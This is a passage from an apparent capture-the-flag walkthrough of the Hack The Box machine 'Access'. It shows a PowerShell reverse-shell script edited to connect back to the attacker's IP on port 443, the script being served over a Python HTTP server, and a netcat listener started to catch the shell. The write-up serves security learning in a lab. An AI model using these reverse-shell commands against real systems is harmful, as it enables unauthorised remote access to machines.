     
    
    root@kali# tail Invoke-PowerShellTcp.ps1 
            }
        }
        catch
        {
            Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
            Write-Error $_
        }
    }
    
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 443
    

#### Serve Shell

Now I need to serve the shell so that I can get it from Access. I’ll use the
`http.server` module in `python3` (that’s the same as the `SimpleHTTPServer`
module in `python2`, but I don’t like having to hit shift and it’s fewer
characters).

I’ll simply start the module, and now I’m serving the current directory over
http on the given port:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

This is why I created a new directory to serve out of. Anyone on the HTB
network can access this page now and the files it’s serving. I don’t want my
notes or other files available.

I can check that the server is working with my browser:

![1550156000195](https://0xdfimages.gitlab.io/img/1550156000195.png)

I can see those requests in the terminal as well:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.14.11 - - [14/Feb/2019 09:53:11] "GET / HTTP/1.1" 200 -
    10.10.14.11 - - [14/Feb/2019 09:53:11] code 404, message File not found
    10.10.14.11 - - [14/Feb/2019 09:53:11] "GET /favicon.ico HTTP/1.1" 404 -
    

#### Start nc

The PowerShell shell is going to connect back to me on port 443 (as I
specified when I added the function call to the end of the file). I’ll start a
`nc` listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    